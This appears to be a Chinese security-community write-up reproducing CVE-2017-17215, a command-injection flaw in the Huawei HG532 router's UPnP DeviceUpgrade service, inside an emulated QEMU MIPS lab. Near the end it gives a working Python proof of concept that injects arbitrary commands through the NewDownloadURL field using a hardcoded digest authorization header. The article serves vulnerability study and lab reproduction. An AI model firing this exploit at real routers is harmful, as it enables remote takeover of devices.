




# HG532RCE漏洞复现-先知社区

> **来源**: https://xz.aliyun.com/news/18364  
> **文章ID**: 18364

---

# 华为HG532RCE漏洞复现流程

## 前言

漏洞披露：<https://research.checkpoint.com/2017/good-zero-day-skiddie/>

因为虚拟机和qemu已经搭建好桥连网络，就是虚拟机和qemu的虚拟机可以互通

所以直接下载内核和镜像，启动qemu虚拟机即可

vmlinux-2.6.32-5-4kc-malta

debian\_squeeze\_mips\_standard.qcow2

下载地址：<https://people.debian.org/~aurel32/qemu/mips/>

配置桥连网络直接跳过

## 启动qemu

开启物理机转发功能，实现qemu虚拟机的网络配置

```
#! /bin/sh
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -F
sudo iptables -X
sudo iptables -t nat -F
sudo iptables -t nat -X
sudo iptables -t mangle -F
sudo iptables -t mangle -X
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -I FORWARD 1 -i tap0 -j ACCEPT
sudo iptables -I FORWARD 1 -o tap0 -m state --state RELATED,ESTABLISHED -j ACCEPT
```

启动脚本

```
#!/bin/bash
sudo qemu-system-mips \
    -M malta -kernel vmlinux-2.6.32-5-4kc-malta \
    -hda debian_squeeze_mips_standard.qcow2 \
    -append "root=/dev/sda1 console=tty0" \
    -net nic,macaddr=00:16:3e:00:00:01 \
    -net tap
```

修改/etc/network/interfaces，将eth0改为你的网卡，一般是eth1，然后重启下

sudo /etc/init.d/networking restart

然后测试一下虚拟机和qemu是否互通

## 分析漏洞文件

### binwalk报错

AttributeError: module 'capstone' has no attribute 'CS\_ARCH\_ARM64'



解决：

sudo pip3 uninstall capstone

为什么卸载capstone就能解决问题呢，我看别的师傅是将arm64改为arm

以下是ai的解释：

ssh连接也会出现问题

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
```

此报错是由于远程的主机的公钥发生了变化导致的。ssh服务是通过公钥和私钥来进行连接的，它会把每个曾经访问过计算机或服务器的公钥（public key），记录在~/.ssh/known\_hosts 中，当下次访问曾经访问过的计算机或服务器时，ssh就会核对公钥，如果和上次记录的不同，OpenSSH会发出警告。

解决

ssh-keygen -R 192.168.xx.xxx

### 漏洞点分析

漏洞存在于设备实现的 **UPnP (Universal Plug and Play)** 服务中，具体是 DeviceUpgrade**SOAP 接口**处理不当，攻击者可以通过 NewDownloadURL ，NewStatusURL参数注入任意命令。由于设备未正确验证该参数，攻击者可以通过精心构造的请求，远程执行任意系统命令。

upnp（通用即插即用）

一种网络协议，主要用于设备自动发现和配置网络服务，例如：路由器，智能电视和其他IOT设备通过upnp实现无缝隙连接和通信

设计目的是为了简化设备联网过程，无需手动配置

‍

通过官方报告的字符串NewDownloadURL和NewStatusURL在ida里面进行查找

定位关键函数

发现这里对输入的标签进行system命令执行，那么通过;{cmd};进行命令拼接即可实现RCE

这里NewStatusURL,NewDownloadURL都可以输入命令执行



## 复现漏洞

将squashfs-root传入qemu中

scp -r ./squashfs-root root@192.168.xx.xxx:/root/

然后挂载dev,proc

```
mount -o bind /dev ./squashfs-root/dev
mount -t proc /proc ./squashfs-root/proc
```

mount查看是否挂载成功

要更换一下根目录，要不然依赖库没办法定位成功

chroot ./squashfs-root /bin/sh

因为官方报告是通过37215这个端口来通过/ctrlt/DeviceUpgrade\_1地址发送数据包，才能启用UPnP服务。grep -r '37215'命令可以查到，/bin/mic这个二进制文件中有这个端口，那么运行/bin/mic开启这个端口然后通过nc -vv 192.168.102.143 37215看看是否能成功连接上这个端口

‍

```
./bin/upnp
./bin/mic
```

此时已进入登录状态，这个终端已经不能用了，再开一个终端ssh链接

然后有两种方式可以验证

```
nc -vv 192.168.102.143 37215
nmap -p- 192.168.xx.xxx
```

POC获取rce

```
import requests

Authorization = "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
headers = {"Authorization": Authorization}

print("-----CVE-2017-17215 HUAWEI HG532 RCE-----
")
cmd = input("command > ")

data = f'''
<?xml version="1.0" ?>
<s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
    <s:Body>
        <u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
            <NewStatusURL>Thir0th</NewStatusURL>
            <NewDownloadURL>;{cmd};</NewDownloadURL>
        </u:Upgrade>
    </s:Body>
</s:Envelope>
'''

r = requests.post('http://192.168.192.133:37215/ctrlt/DeviceUpgrade_1', headers = headers, data = data)
print("
status_code: " + str(r.status_code))
print("
" + r.text)
```

原本执行./bin/mic的终端就会执行命令



至此复现完成

# 参考链接

[华为路由器漏洞CVE-2017-17215复现分析-先知社区](https://xz.aliyun.com/news/8087)

[华为HG532路由器RCE漏洞-先知社区](https://xz.aliyun.com/news/17507)

[问题解决——SSH时出现WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!-CSDN博客](https://blog.csdn.net/wangguchao/article/details/85614914)

‍
